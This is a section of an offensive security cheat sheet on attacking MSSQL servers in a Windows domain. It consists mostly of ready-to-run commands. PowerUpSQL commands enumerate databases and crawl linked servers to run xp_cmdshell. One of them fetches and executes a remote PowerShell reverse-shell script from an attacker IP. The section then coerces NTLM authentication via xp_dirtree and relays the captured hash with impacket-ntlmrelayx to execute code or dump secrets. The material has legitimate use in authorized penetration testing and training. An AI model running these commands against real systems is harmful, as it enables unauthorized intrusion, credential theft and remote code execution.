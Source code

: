 We can also use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) to look for databases within the domain, and gather further information on (reachable) databases. We can also automatically look for, and execute queries or commands on, linked databases (even through multiple layers of database links).

```
# Get MSSQL databases in the domain, and test connectivity
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ft

# Try to get information on all domain databases
Get-SQLInstanceDomain | Get-SQLServerInfo

# Get information on a single reachable database
Get-SQLServerInfo -Instance dcorp-mssql

# Scan for MSSQL misconfigurations to escalate to SA
Invoke-SQLAudit -Verbose -Instance UFC-SQLDEV

# Execute SQL query
Get-SQLQuery -Query "SELECT system_user" -Instance UFC-SQLDEV

# Run command (requires XP_CMDSHELL to be enabled)
Invoke-SQLOSCmd -Instance devsrv -Command "whoami" |  select -ExpandProperty CommandResults

# Automatically find all linked databases
Get-SqlServerLinkCrawl -Instance dcorp-mssql | select instance,links | ft

# Run command if XP_CMDSHELL is enabled on any of the linked databases
Get-SqlServerLinkCrawl -Instance dcorp-mssql -Query 'EXEC xp_cmdshell "whoami"' | select instance,links,customquery | ft

Get-SqlServerLinkCrawl -Instance dcorp-mssql -Query 'EXEC xp_cmdshell "powershell.exe -c iex (new-object net.webclient).downloadstring(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1'')"' | select instance,links,customquery | ft 
```

If you have low-privileged access to a MSSQL database and no links are present, you could potentially force NTLM authentication by using the `xp_dirtree` stored procedure to access this share. If this is successful, the NetNTLM for the SQL service account can be collected and potentially cracked or relayed to compromise machines as that service account.

```
EXEC master..xp_dirtree "\\192.168.49.67\share" 
```

Example command to relay the hash to authenticate as local admin (if the service account has these privileges) and run `calc.exe`. Leave out the `-c` parameter to attempt a `secretsdump` instead.

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.67.6 -c 'calc.exe' 
```

Privilege Escalation
--------------------
